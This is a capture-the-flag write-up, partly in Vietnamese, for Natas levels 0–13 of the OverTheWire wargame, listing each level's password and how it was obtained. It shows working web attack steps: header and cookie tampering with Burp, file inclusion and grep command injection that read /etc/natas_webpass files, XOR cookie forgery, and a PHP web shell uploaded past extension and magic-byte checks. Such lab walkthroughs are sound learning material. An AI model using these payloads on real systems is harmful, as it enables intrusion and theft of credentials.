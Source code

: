 # NATAS WRITE UP
## Natas0
View source  
**user: natas1**  
**pass: gtVrDuiDfck831PqWsLEZy5gyDz1clto**
## Natas1
Ctrl + U  
**user: natas2**  
**pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi**
## Natas2
http://natas2.natas.labs.overthewire.org/files/users.txt  
**user: natas3**  
**pass: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14**
## Natas3
http://natas3.natas.labs.overthewire.org/robots.txt  
http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt  
**user: natas4**  
**pass: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ**
## Natas4
Dùng Burp intercept request để sửa referer thành http://natas5.natas.labs.overthewire.org/  
**user: natas5**  
**pass: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
## Natas5
Dùng Burp intercept request để sửa cookie thành loggedin=1  
**user: natas6**  
**pass: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1**  
## Natas6
http://natas6.natas.labs.overthewire.org/includes/secret.inc  
Secret: FOEIUWGHFEEUHOFUOIU  
**user: natas7**  
**pass: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**  
## Natas7
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8  
**user: natas8**  
**pass: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**  
## Natas8
```python
#!/bin/python3
  secret = base64.b64decode(bytes.fromhex('3d3d516343746d4d6d6c315669563362').decode('utf-8')[::-1])
```
secret = oubWYf2kBq  
**user: natas9**  
**pass: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl**  
## Natas9
Query: `'' -m10  /etc/natas_webpass/natas10`  
**user: natas10**  
**pass: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**
## Natas10
Query: `'' -m10  /etc/natas_webpass/natas11`  
**user: natas11**  
**pass: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK**
## Natas11
https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Base64','string':'ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%253D'%7D,'Standard',false)&input=eyJzaG93cGFzc3dvcmQiOiJubyIsImJnY29sb3IiOiIjZmZmZmZmIn0  
Xor key: qw8J
Crafted cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK  
**user: natas12**  
**pass: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3**
## Natas12
Tạo file php có nội dụng
```php
<?php 
    echo exec("cat /etc/natas_webpass/natas13");
?>
```
Upload file, sau đó dùng burp suite để sửa file extension thành ${random}.php (file đính kèm trong /natas12/exploit.php)
**user: natas13**
**pass: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY**
## Natas13
Thêm 4 bytes `FF D8 FF DB` vào trước file được tạo ở natas12
Upload file, sau đó dùng burp suite để sửa file extension thành ${random}.php (file đính kèm trong /natas13/exploit.php)





